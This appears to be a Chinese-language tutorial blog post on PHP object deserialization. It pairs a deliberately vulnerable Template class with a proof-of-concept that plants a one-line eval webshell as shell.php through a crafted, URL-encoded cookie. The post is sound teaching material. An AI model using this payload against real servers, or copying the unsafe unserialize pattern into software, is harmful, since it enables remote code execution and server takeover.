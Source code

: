 ```yaml
---
# 当前页面内容标题
title: PHP 反序列化
# sidebar: heading
# 当前页面图标
icon: note
# 分类
category:
    - web安全
tag: 
    - 反序列化
    - PHP魔术方法
sticky: false
# 是否收藏在博客主题的文章列表中，当填入数字时，数字越大，排名越靠前。
star: false
# 是否将该文章添加至文章列表中
article: true
# 是否将该文章添加至时间线中
timeline: true
# sidebar: heading
order: 2
date: 2023-02-20
# 浏览量
pageview: true
---
```


```php
class Template {
    var $cacheFile = "cache.txt";
    var $template = "<div>Welcome back %s</div>";

    function __construct($data = null) {
        $data = $this->loadData($data);    // $data反序列后是一个Template对象
        $this->render($data);
    }

    function loadData($data) {
        return unserialize($data);   // $data值必须是一个序列化结果
        return [];                   // []代表空数组，但是此处不会执行
    }

    function createCache($file = null, $tpl = null) {
        $file = $file ?: $this->cacheFile;
        $tpl = $tpl ?: $this->template;
        file_put_contents($file, $tpl);
    }

    function render($data) {
        echo sprintf($this->template, htmlspecialchars($data['name']));  // 此处$data只能是一个数组
    }

    // 此会会被调用两次，第一次实例化后正常调用，第二次反序列后再调用 
    function __destruct() {
        $this->createCache();
    }
}
new Template($_COOKIE['data']);
```

分析代码：

1. `Template`里两个魔法方法，分别是`construct`和`destruct`
2. `construct`里会对数据进行反序列化，同时将结果传到`render`进行打印
3. `render`的参数必须是数组，如果反序列化返回的结果不是数组，就会产生调用报错
4. 最后`destruct`被执行，调用`createCache`创建文件

思路：

1. 创建POC设置`$template`为一句话木马，`$cacheFile`为自定义的文件名称
2. 因为`unserialize`需要返回一个数组，所以将对象插入到数组中，再进行序列化
3. 开启代理，将序列化结果设置到`cookie`里面
4. 访问`shell.php`

实操：

1. 创建POC

   ```php
   <?php
   class Template
   {
       var $name = "s";
       var $cacheFile = "shell.php";
       var $template = '<?php @eval($_POST["shell"]);?>';
   }
   $t = new Template();
   $array = array('name' => $t);
   print(base64_encode(serialize($array)));
   # 得到：
   a:1:{s:4:"name";O:8:"Template":3:{s:4:"name";s:1:"s";s:9:"cacheFile";s:9:"shell.php";s:8:"template";s:31:"<?php @eval($_POST["shell"]);?>";}}
   ```

2. 开启代理，修改cookie，这里的`;`需要进行url转换

   ```
   Cookie: data=a:1:{s:4:"name"%3bO:8:"Template":3:{s:4:"name"%3bs:1:"s"%3bs:9:"cacheFile"%3bs:9:"shell.php"%3bs:8:"template"%3bs:31:"<?php @eval($_POST["shell"])%3b?>"%3b}}
   ```

   ![image-20221013222739955](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221013222739955.png)

3. 访问`shell.php`

   ![image-20221013222946449](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221013222946449.png)

4. 查看服务器文件

   ![image-20221013223011953](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221013223011953.png)